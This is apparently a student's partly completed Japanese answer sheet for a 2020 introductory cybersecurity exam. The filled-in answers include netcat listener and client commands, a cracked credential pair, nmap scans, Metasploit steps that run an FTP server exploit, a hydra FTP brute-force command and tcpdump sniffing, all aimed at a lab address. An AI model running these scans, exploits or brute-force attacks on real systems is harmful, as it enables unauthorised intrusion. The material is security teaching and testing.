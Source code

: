 # CyberSecurity I Exam 2020 回答用紙

## 問1 [netcat]

### サーバー側コマンド

```sh
# ここに回答を記述
nc  -lvp XXXX(ポート番号)
```
### クライアント側コマンド

```sh
# ここに回答を記述
nc XXX.XXX.XX.X(サーバーのIPアドレス)　XXXX(ポート番号)
```

## 問2 [Password Crack]

```md
<!--  ここに回答を記述 -->
omas2:foobar
```

## 問3 [Port Scanner]

### 1. ping scan

```sh
# ここに回答を記述
nmap 192.168.33.0-127
```

### 2. version scan

```sh
# ここに回答を記述
nmap -sV
```

## 問4 [Metasploit Framework]

```sh
# ここに回答を記述
msfconsole
search vftpd type:exploit
use exploit/windows/ftp/vermillion_ftpd_port
show options
set RHOSTS 192.168.33.5
show options
run
```

## 問5 [Online Password Cracker]


### 1. コマンド

```sh
# ここに回答を記述
hydra -L user.list -P passwd.list -t 4 192.168.33.5 ftp

```

### 2. 解析結果

```sh
# ここに回答を記述

```

## 問6 [Packet Sniffer]

```sh
# ここに回答を記述
tcpdump port 80 and host 192.168.33.5
```

## 問7 [不正アクセス]

### 1. rootアクセスの件数

```md
<!--  ここに回答を記述 -->

```

### 2. 不正アクセスユーザーのTOP3

```md
<!--  ここに回答を記述 -->

```
### 3. IPアドレスのアクセス件数と発信国

```md
<!--  ここに回答を記述 -->

```

## 問8 [自己評価]

```md
<!--  ここに回答を記述 -->
70
```

## 問9 [講義の感想]

```md
<!--  ここに回答を記述 -->

```
